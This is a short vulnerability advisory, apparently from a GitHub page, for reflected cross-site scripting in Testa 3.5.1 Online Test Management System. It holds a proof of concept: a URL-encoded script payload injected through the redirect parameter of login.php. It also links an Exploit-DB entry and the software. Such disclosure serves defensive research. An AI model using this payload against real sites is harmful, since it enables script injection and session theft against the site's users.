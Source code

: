## Testa-3.5.1 (Cross site scripting)
```
=========================================================================
#
# Testa 3.5.1 Online Test Management System (Cross Site Scripting)
# Version: 3.5.1
# Tested on Linux/Windows
#
=========================================================================
#
# POC (Piye om carane)
# https://localhost/login.php?redirect=[Payloads]
# Payloads: %22%3E%3Cscript%3Ealert(%22Ultraamooz.com%22)%3C/script%3E
#
=========================================================================
```
## Reference
[https://www.exploit-db.com/exploits/51023](https://www.exploit-db.com/exploits/51023)

## Software
[https://download.aftab.cc/products/testa/Testa_wos_2.0.1.zip](https://download.aftab.cc/products/testa/Testa_wos_2.0.1.zip)
